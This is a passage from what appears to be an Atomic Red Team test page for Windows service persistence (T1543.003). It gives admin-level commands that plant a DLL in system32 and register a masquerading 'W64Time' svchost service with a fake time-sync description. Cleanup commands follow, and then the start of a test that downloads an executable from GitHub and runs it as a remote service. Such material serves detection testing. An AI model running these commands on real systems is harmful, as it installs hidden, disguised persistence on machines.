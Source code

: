 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy "#{dllfilename}" %systemroot%\system32\
sc create W64Time binPath= "c:\Windows\System32\svchost.exe -k TimeService" type= share start=auto
sc config W64Time DisplayName= "Windows 64 Time"
sc description W64Time "Maintain date and time synch on all clients and services in the network"
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Svchost" /v TimeService /t REG_MULTI_SZ /d "W64Time" /f
reg add "HKLM\SYSTEM\CurrentControlSet\Services\W64Time\Parameters" /v ServiceDll /t REG_EXPAND_SZ /d "%systemroot%\system32\w64time.dll" /f
sc start W64Time
```

#### Cleanup Commands:
```cmd
sc stop W64Time
sc.exe delete W64Time
del %systemroot%\system32\w64time.dll
reg delete "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Svchost" /v TimeService /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Services\W64Time\Parameters" /v ServiceDll /f
```





<br/>
<br/>

## Atomic Test #5 - Remote Service Installation CMD
Download an executable from github and start it as a service on a remote endpoint
Upon successful execution, powershell will download `AtomicService.exe` from github. cmd.exe will spawn sc.exe which will create and start the service. Results will output via stdout.

**Supported Platforms:** Windows


**auto_generated_guid:** fb4151a2-db33-4f8c-b7f8-78ea8790f961





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| binary_path | Name of the service binary, include path. | path | PathToAtomicsFolder&#92;T1543.003&#92;bin&#92;AtomicService.exe|
| service_type | Type of service. May be own,share,interact,kernel,filesys,rec,userown,usershare | string | Own|
| startup_type | Service start method. May be boot,system,auto,demand,disabled,delayed-auto | string | auto|
| service_name | Name of the Service | string | AtomicTestService_CMD|
| remote_host | Name of the remote endpoint | string | localhost|
